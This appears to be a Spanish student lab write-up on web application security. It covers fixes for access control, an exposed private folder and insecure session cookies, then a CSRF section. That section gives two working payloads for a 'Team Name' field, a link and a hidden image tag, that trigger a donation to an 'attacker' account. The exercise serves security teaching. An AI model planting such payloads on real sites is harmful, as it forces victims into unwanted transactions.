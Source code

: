 ```php

```

**C**

En register.php, debemos redirigir a los usuarios no autenticados al login y aplicar control de acceso basado en roles para restringir quién puede registrarse. Además, implementamos protección CSRF usando un token único en los formularios y limitamos el acceso al registro solo a usuarios con permisos específicos.


**D**

No se cumple la condición ya que tenemos acceso a la carpeta private de forma local.

Como medidas para evitarlo:

- Usar una imagen predefinida.
- Configurar el servidor web para restringir el acceso a la carpeta private.
- Almacenar configuraciones sensibles fuera del directorio raíz de la web

**E**

No está bien asegurada la sesión del usuario. Se guarda en una cookie y en texto plano.

- Uso de $_SESSION para gestionar la autenticación
- Configuración de las cookies de sesión como HttpOnly, Secure y SameSite.
- Incluir tokens


## Servidores web

Para asegurar la sesión del usuario, debemos usar HTTPS y configurar correctamente el servidor con medidas como HSTS. La autenticación debe incluir regeneración de sesión al iniciar sesión y protección con cookies HttpOnly y Secure. Para prevenir inyecciones SQL, XSS y CSRF, implementamos consultas preparadas, escapamos entradas y usamos tokens CSRF. Si la sesión no está bien asegurada, podemos mejorar la gestión de cookies y añadir un tiempo de expiración o límites para protegerla.


## CSRF

**A**

| CSRF \- A |  |
| ----- | :---- |
| En el campo … | En "Team", usamos el código que veremos a continuación |
| Introduzco … | \<a href="http://web.pagos/donate.php?amount=100\&receiver=attacker" style="text-decoration: none;"\> \<button\>Profile\</button\> \</a\> |

**B**

| CSRF \- B |  |
| ----- | :---- |
| En el campo … | En el campo "Team Name", usamos el código que veremos a continuación |
| Introduzco … | \<img src="http://web.pagos/donate.php?amount=100&receiver=attacker" style="display:none;"> |
